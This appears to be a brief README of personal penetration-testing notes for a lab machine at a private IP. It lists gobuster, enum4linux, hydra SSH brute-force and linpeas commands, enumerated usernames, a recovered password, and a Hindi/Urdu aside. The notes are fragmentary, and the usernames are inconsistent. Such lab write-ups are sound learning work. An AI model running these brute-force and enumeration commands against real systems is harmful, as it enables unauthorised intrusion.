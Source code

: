 # Basic-Pentration-Testing
Port

GObuster  (Hidden directory on webserver ('development found ')
gobuster dir -u 10.10.111.148  --wordlist  /usr/share/wordlists/rockyou.txt 

Enum4linux  ( Username "jan & "kay" found)
enum4linux/enum4linux.pl -a 10.10.111.148 | tee enum4linux.log


Hydra   (password  jay:armando found with ssh hydra)
hydra -l kay -P /usr/share/wordlists/rockyou.txt 10.10.111.148


linpeas    scp  /opt/linpeas/linpeas.sh  jan@ip:/dev/shm
( ye basically install hoti hy apni machine me phr ssh se target machine me)


john the ripper   
